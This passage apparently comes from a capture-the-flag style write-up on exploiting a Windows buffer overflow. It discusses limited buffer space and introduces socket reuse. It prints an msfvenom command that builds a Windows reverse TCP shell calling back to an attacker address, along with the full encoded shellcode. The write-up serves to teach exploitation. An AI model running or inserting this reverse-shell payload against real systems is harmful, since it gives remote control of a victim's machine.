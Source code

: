 #### Still Need More Space

The goal here is to jump to some Windows shellcode that will create TCP connection back to me, and provide a shell. Unfortunately, while 66 bytes is a lot more than 10, it’s still not near enough to do that. For example, `msfvenom` will create this shellcode at 351 bytes:

```

oxdf@hacky$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -b "\x00" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xda\xce\xd9\x74\x24\xf4\x5b\xbf\xbe\xd9\x55\xca\x29"
buf += b"\xc9\xb1\x52\x31\x7b\x17\x03\x7b\x17\x83\x7d\xdd\xb7"
buf += b"\x3f\x7d\x36\xb5\xc0\x7d\xc7\xda\x49\x98\xf6\xda\x2e"
buf += b"\xe9\xa9\xea\x25\xbf\x45\x80\x68\x2b\xdd\xe4\xa4\x5c"
buf += b"\x56\x42\x93\x53\x67\xff\xe7\xf2\xeb\x02\x34\xd4\xd2"
buf += b"\xcc\x49\x15\x12\x30\xa3\x47\xcb\x3e\x16\x77\x78\x0a"
buf += b"\xab\xfc\x32\x9a\xab\xe1\x83\x9d\x9a\xb4\x98\xc7\x3c"
buf += b"\x37\x4c\x7c\x75\x2f\x91\xb9\xcf\xc4\x61\x35\xce\x0c"
buf += b"\xb8\xb6\x7d\x71\x74\x45\x7f\xb6\xb3\xb6\x0a\xce\xc7"
buf += b"\x4b\x0d\x15\xb5\x97\x98\x8d\x1d\x53\x3a\x69\x9f\xb0"
buf += b"\xdd\xfa\x93\x7d\xa9\xa4\xb7\x80\x7e\xdf\xcc\x09\x81"
buf += b"\x0f\x45\x49\xa6\x8b\x0d\x09\xc7\x8a\xeb\xfc\xf8\xcc"
buf += b"\x53\xa0\x5c\x87\x7e\xb5\xec\xca\x16\x7a\xdd\xf4\xe6"
buf += b"\x14\x56\x87\xd4\xbb\xcc\x0f\x55\x33\xcb\xc8\x9a\x6e"
buf += b"\xab\x46\x65\x91\xcc\x4f\xa2\xc5\x9c\xe7\x03\x66\x77"
buf += b"\xf7\xac\xb3\xd8\xa7\x02\x6c\x99\x17\xe3\xdc\x71\x7d"
buf += b"\xec\x03\x61\x7e\x26\x2c\x08\x85\xa1\x59\xc7\x8b\x37"
buf += b"\x36\xd5\x93\x36\x7d\x50\x75\x52\x91\x35\x2e\xcb\x08"
buf += b"\x1c\xa4\x6a\xd4\x8a\xc1\xad\x5e\x39\x36\x63\x97\x34"
buf += b"\x24\x14\x57\x03\x16\xb3\x68\xb9\x3e\x5f\xfa\x26\xbe"
buf += b"\x16\xe7\xf0\xe9\x7f\xd9\x08\x7f\x92\x40\xa3\x9d\x6f"
buf += b"\x14\x8c\x25\xb4\xe5\x13\xa4\x39\x51\x30\xb6\x87\x5a"
buf += b"\x7c\xe2\x57\x0d\x2a\x5c\x1e\xe7\x9c\x36\xc8\x54\x77"
buf += b"\xde\x8d\x96\x48\x98\x91\xf2\x3e\x44\x23\xab\x06\x7b"
buf += b"\x8c\x3b\x8f\x04\xf0\xdb\x70\xdf\xb0\xec\x3a\x7d\x90"
buf += b"\x64\xe3\x14\xa0\xe8\x14\xc3\xe7\x14\x97\xe1\x97\xe2"
buf += b"\x87\x80\x92\xaf\x0f\x79\xef\xa0\xe5\x7d\x5c\xc0\x2f"

```

It can be done with less, but 66 seems impossible.

#### Socket Reuse - Fetch Descriptor

Rastating has a good writeup on [Socket Reuse](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/), which I’ll basically follow here.
